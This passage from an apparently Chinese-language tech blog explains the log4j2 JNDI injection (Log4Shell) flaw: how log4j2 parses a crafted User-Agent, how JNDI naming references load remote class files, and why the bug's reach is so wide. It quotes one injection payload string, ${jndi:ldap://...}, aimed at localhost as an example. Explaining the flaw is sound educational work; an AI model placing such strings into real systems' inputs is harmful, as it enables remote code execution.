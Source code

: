 假如有人发来了一个HTTP请求，他的`User-Agent`是这样一个字符串：

> ${jndi:ldap://127.0.0.1/exploit}

接下来，log4j2将会对这行要输出的字符串进行解析。

首先，它发现了字符串中有 **${}** ，知道这个里面包裹的内容是要单独处理的。

进一步解析，发现是JNDI扩展内容。

再进一步解析，发现了是LDAP协议，LDAP服务器在127.0.0.1，要查找的key是exploit。

最后，调用具体负责LDAP的模块去请求对应的数据。

如果只是请求普通的数据，那也没什么，但问题就出在还可以请求Java对象！

Java对象一般只存在于内存中，但也可以通过序列化的方式将其存储到文件中，或者通过网络传输。

如果是自己定义的序列化方式也还好，但更危险的在于：JNDI还支持一个叫命名引用（Naming
References）的方式，可以通过远程下载一个class文件，然后下载后加载起来构建对象。

>
> PS：有时候Java对象比较大，直接通过LDAP这些存储不方便，就整了个类似于二次跳转的意思，不直接返回对象内容，而是告诉你对象在哪个class里，让你去那里找。

注意，这里就是核心问题了： **JNDI可以远程下载class文件来构建对象！！！** 。

危险在哪里？

如果远程下载的URL指向的是一个黑客的服务器，并且下载的class文件里面藏有恶意代码，那不就完犊子了吗？

还没看懂？没关系，我画了一张图：

![图片](https://mmbiz.qpic.cn/mmbiz_png/jXQDbLkGBYWlSHxFbjAu75C0gNz7tGbNKpiaAF7nSbsY9eFyfwae8Ffkhb6vM2La3EHGD3CXFibXicyEIpxxZASIA/640?wx_fmt=png)

这就是鼎鼎大名的JNDI注入攻击！

其实除了LDAP，还有RMI的方式，有兴趣的可以了解下。

## JNDI 注入

其实这种攻击手法不是这一次出现了，早在2016的blackhat大会上，就有大佬披露了这种攻击方式。

![图片](https://mmbiz.qpic.cn/mmbiz_png/jXQDbLkGBYWlSHxFbjAu75C0gNz7tGbN40UjqJJ9ZuAW5ppORylS3h5BzEyYyrwuZzVCDXJqQkw2MScz8QTChw/640?wx_fmt=png)

回过头来看，问题的核心在于：  

Java允许通过JNDI远程去下载一个class文件来加载对象，如果这个远程地址是自己的服务器，那还好说，如果是可以被外界来指定的地址，那就要出大问题！

前面的例子中，一直用的127.0.0.1来代替LDAP服务器地址，那如果输入的User-Agent字符串中不是这个地址，而是一个恶意服务器地址呢？

## 影响规模

这一次漏洞的影响面之所以如此之大，主要还是log4j2的使用面实在是太广了。

一方面现在Java技术栈在Web、后端开发、大数据等领域应用非常广泛，国内除了阿里巴巴、京东、美团等一大片以Java为主要技术栈的公司外，还有多如牛毛的中小企业选择Java。

另一方面，还有好多像kafka、elasticsearch、flink这样的大量中间件都是用Java语言开发的。

在上面这些开发过程中，大量使用了log4j2作为日志输出。只要一个不留神，输出的日志有外部输入混进来，那直接就是远程代码执行RCE，灭顶之灾！

## 修复
